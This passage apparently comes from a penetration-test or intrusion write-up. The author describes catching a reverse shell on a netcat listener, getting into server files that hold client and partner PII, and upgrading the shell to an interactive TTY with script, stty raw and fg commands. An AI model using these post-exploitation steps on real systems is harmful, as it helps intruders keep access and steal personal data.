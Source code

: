 And a few seconds later.... I got a connection received on my machine.

![Connection_received](../assets/2024-11-03/connection.png)

After that I can retrieve information from the server. Which it have files with PII data from their clients and their partners.

Also for a better movement inside the server, I made the tty more interactive with the following commands:

``` bash
script /dev/null -c bash
    Script started, file is /dev/null
```

``` bash
USER@host:/$ ^Z
    bash: suspended  nc -nlvp 4444
```

``` bash
stty raw -echo; fg
```

```
[1]  + continued  nc -nlvp 4444
                              reset
reset: unknown terminal type unknown
Terminal type? xterm
```
